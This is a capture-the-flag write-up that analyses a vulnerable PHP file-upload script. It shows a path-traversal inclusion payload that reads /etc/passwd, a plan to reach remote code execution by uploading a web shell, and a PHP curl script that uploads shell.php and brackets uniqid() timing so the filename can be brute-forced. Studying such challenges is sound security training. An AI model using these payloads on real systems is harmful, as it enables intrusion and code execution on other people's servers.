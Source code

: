 ```php
?>
```

So this PHP script handles file uploads, when a `POST` request is made, and the file size is within 1000 byte size, the script generates a unique ID using the `uniqid()` function and moves the uploaded file to the `./uploads/`{:.filepath} directory using `move_uploaded_file()` function. Then the uploaded file is renamed to include the unique ID, the SHA256 hash of the file name, and the original file name.

When a `GET` request is made, the script checks if the `f` parameter is set in the query string. If it is set, the script includes the file located in the `./uploads/`{: .filepath} directory with the same name as the value of the `f` parameter. If the `f` parameter is not set, the script highlights the source code of the PHP file.
 
This script is screwed in multiple ways:) just looking at it we can see an **LFI** (Local File Inclusion) vulnerability (try looking at `https://filestore.web.actf.co/?f=/../../../../../etc/passwd`{: .filepath}:)

So the basic idea here is to try to gain an **RCE** (Remote Code Execution) by uploading a shell and with this LFI we access it by doing a `GET` request with the `f` parameter set to our shell name

But to do that we are faced with the fact that the script randomly renames our uploads with this `uniqid()` function!!

To bypass this there are three possible approaches:-

1. Brute-force the name of our file
2. Exploit the PHP session file upload 
3. Exploit pearcmd.php, which is preinstalled in the Docker image of the machine, to gain arbitrary file write permission and write our shell in the `/tmp`{:.filepath} folder.

#### Getting RCE
##### 1. Brute-forcing using time attack
For the first method, we should know that `uniqid()` function isn't actually _random_, that is because it depends on the time in microseconds to generate the uniqid, it's a common vulnerability to abuse the [insecure randomness](https://www.youtube.com/watch?v=WiGif0D3fIc) of those functions to be able to fuzz its output

So if we were to have a range of time before and after the scripts get an uniqid for our file, we could try and brute force the correct uniqid

Let's craft a script for it!

```php
<?php
$cfile = curl_file_create('shell.php');
$curl = curl_init();
curl_setopt($curl, CURLOPT_URL, "https://filestore.web.actf.co/");
curl_setopt($curl, CURLOPT_RETURNTRANSFER, true);
curl_setopt($curl, CURLOPT_HEADER, true);
curl_setopt($curl, CURLOPT_SSL_VERIFYHOST, false);
curl_setopt($curl, CURLOPT_SSL_VERIFYPEER, false);
curl_setopt($curl, CURLOPT_POST, true); // enable posting
curl_setopt($curl, CURLOPT_POSTFIELDS, array('f' => $cfile)); 

$a = uniqid();
$resp = curl_exec($curl);
$b = uniqid();
curl_close($curl);

echo PHP_EOL.$a.PHP_EOL.$b.PHP_EOL;
echo hexdec($b)-hexdec($a);
echo PHP_EOL.$resp;
?>
```

